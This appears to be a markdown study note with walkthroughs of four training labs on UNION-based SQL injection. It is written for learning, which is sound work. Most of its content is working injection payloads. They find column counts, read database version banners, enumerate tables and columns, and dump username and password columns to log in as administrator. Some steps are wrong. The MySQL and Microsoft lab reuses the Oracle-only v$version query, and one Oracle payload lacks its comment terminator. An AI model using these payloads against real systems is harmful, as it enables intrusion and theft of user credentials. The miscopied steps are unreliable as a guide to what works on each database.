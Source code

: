 # Examining the database in SQL injection attacks

Query to examining the database version

| Database type | 			Query	 		|
|--- 			|---				 		| 
|Microsoft 		|	SELECT @@version 		|
|Oracle 		|	SELECT * FROM v$version |
|PostgreSQL 	| 	SELECT version() 		|
|MySQL 			|	SELECT @@version 		|

# Labs
## Lab #7: SQL injection attack, querying the database type and version on Oracle
> This lab contains an SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.
>
> To solve the lab, display the database version string. 

Steps: 

1. Determine the number of column
```
category=Pets' ORDER BY 1,2 --
```

2. Determine the columns data type
```
category=Pets' UNION SELECT 'a','b' FROM DUAL --
```

3. Retrieve Oracle banner
```
category=Pets' UNION SELECT banner, null FROM v$version --
```
```
UNION SELECT * FROM v$version where banner LIKE 'oracle%'--

```

## Lab #8: SQL injection attack, querying the database type and version on MySQL and Microsoft
> This lab contains an SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.
>
> To solve the lab, display the database version string. 

Steps:
1. Determine the number of column
```
category=Pets' ORDER BY 1,2 #
```

2. Determine the columns data type
```
category=Pets' UNION SELECT 'a','b' #
```

3. Retrieve Oracle database banner
```
category=Pets' UNION SELECT banner, null FROM v$version --
```

`#` = %23

## Lab #9: SQL injection attack, listing the database contents on non-Oracle databases
> This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.
> 
> The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.
>
> To solve the lab, log in as the administrator user. 

Steps:

1. Determine the number of columns and column data type
```
category=Pets' order by 1, 2 --
category=Pets' union select 'a', 'a' --
```

2. Find all table name contains '%user%' | `%` = %25
```
category=Pets' union select table_name, 'a' from information_schema.tables where table_name like '%user%'--
```

3. List the table columns
```
category=Pets' union select table_name, column_name from information_schema.columns where table_name='pg_user' --
category=Pets' union select table_name, column_name from information_schema.columns where table_name='users_rfankd' -- 
```

4. Retrieve the table contents

```
category=Pets' union select username_grhpij, password_rhddiy from users_rfankd -- 

category=Pets' union select username_grhpij || ':' || password_rhddiy, null from users_rfankd -- 
```

## Lab #10: SQL injection attack, listing the database contents on Oracle
>  This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.
>
> The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.
>
> To solve the lab, log in as the administrator user. 

steps:
1. Determine the number of columns and columns data type
```
' ORDER BY 1,2 
' UNION SELECT 'a', 'a' FROM DUAL --
```

2. Examine the database type.
```
' UNION SELECT banner ,NULL FROM v$version --
```

3. Find all table contains 'U%' | `%` = %25
```
' UNION SELECT table_name,'a' FROM all_tables WHERE table_name like 'U%25' --
```

4. List the table columns
```
' UNION SELECT table_name, column_name FROM all_tab_columns WHERE table_name = 'USERS_WNFXKC'
``` 

5. Retrieve the table contents
```
' UNION SELECT USERNAME_ZATYRE, PASSWORD_FIACJD FROM USERS_WNFXKC --
```
